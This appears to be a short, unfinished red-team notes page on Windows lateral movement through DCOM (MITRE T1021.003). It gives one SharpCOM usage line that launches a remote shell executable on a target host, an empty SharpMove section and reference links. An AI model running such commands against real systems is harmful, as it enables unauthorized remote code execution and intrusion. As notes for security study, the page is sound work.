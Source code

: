 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - T1021-003
  - network-protocols
  - msrpc
  - offensive-tools
  - windows
---
```

# Binaries

## 01 - SharpCOM

TODO: Fill this info

```
C:\> SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\remote\shell.exe"
```

## 02 - [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Lateral Movement/Windows/02 - RPC/01 - Service Control Manager/Offensive Tools/Binaries|SharpMove]]

TODO: Fill this info (refer to links)

```

```

---
## References

### Github

- [SharpCOM](https://github.com/rvrsh3ll/SharpCOM)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)